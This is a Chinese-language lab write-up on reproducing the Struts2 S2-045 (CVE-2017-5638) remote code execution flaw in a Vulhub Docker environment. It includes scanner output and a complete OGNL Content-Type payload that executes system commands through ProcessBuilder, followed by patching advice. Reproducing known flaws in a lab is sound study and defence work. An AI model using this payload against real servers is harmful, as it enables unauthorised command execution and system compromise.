





# S2-045 Remote Code Execution Vulnerablity（CVE-2017-5638）

| 说明     | 内容                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞编号 | CVE-2017-5638                                                |
| 漏洞名称 | S2-045 远程代码执行漏洞                                      |
| 漏洞评级 | 高危                                                         |
| 影响范围 | Struts 2.3.5 - Struts 2.3.31<br>Struts 2.5 - Struts 2.5.10   |
| 漏洞描述 | 在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵，恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令 |
| 修复方案 | 打补丁<br >上设备<br>升级组件                                |


### 1.1、漏洞描述

  Apache官方发布Struts 2 紧急漏洞公告（S2-045），CVE编号CVE-2017-5638。公告中披露 ，当基于Jakarta插件上传文件时，可导致远程代码执行。例如在系统中获得管理员权限，执行添加用户。可任意查看、修改或删除文件。造成机密数据泄露，重要信息遭到篡改等重大危害。

### 1.2、漏洞等级

高危

### 1.3、影响版本

Struts 2.3.5 - Struts 2.3.31,

Struts 2.5 - Struts 2.5.10

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/struts2/s2-045

---

启动测试环境：

```bash
sudo docker-compose up -d
```

容器运行后，访问`http://your-ip:8080`，可以看到上传页面的示例



#### 2、漏洞扫描

#### nacs

```bash
┌──(kali㉿kali)-[~/tools/nacs/0.0.3]
└─$ sudo ./nacs -h 192.168.80.141 -pa 8080
[sudo] password for kali: 
 _  _     ___     ___     ___   
| \| |   /   \   / __|   / __|  
| .  |   | - |  | (__    \__ \
|_|\_|   |_|_|   \___|   |___/  
             Version: 0.0.3
[07:25:16] [INFO] Start to probe alive machines
[07:25:16] [*] Target 192.168.80.141 is alive
[07:25:16] [INFO] There are total of 1 hosts, and 1 are surviving
[07:25:16] [WARNING] Too few surviving hosts
[07:25:16] [INFO] Start to discover the ports
[07:25:16] [*] [TCP/SSH] ssh://192.168.80.141:22 [SSH-2.0-OpenSSH_9.2p1\x20Debian-2]
[07:25:18] [*] [TCP/HTTP] [200] [Apache-Struts2] [JAVA] [Jetty] [JSP] http://192.168.80.141:8080 [Struts2 Showcase - Fileupload sample]                                                                                                                           
[07:25:18] [INFO] A total of 2 targets, the rule base hits 2 targets
[07:25:18] [INFO] Start to send pocs to web services (xray type)
[07:25:19] [INFO] Load 397 xray poc(s) 
[07:25:21] [+] http://192.168.80.141:8080 poc-yaml-struts2_045 poc1
[07:26:28] [INFO] Start to process nonweb services
[07:26:28] [INFO] [protocol] ssh 192.168.80.141
[07:28:55] [INFO] Task finish, consumption of time: 3m39.252863901s
```




#### 3、漏洞验证

通过以下请求验证漏洞：

```bash
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data
```




`233*233`已成功执行

```bash
Content-Type:  %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```





### 1.5、修复建议

 如果你正在使用基于Jakarta的文件上传Multipart解析器，请升级到Apache Struts 2.3.32或2.5.10.1版；或者也可以切 换到不同的实现文件上传Multipart解析器。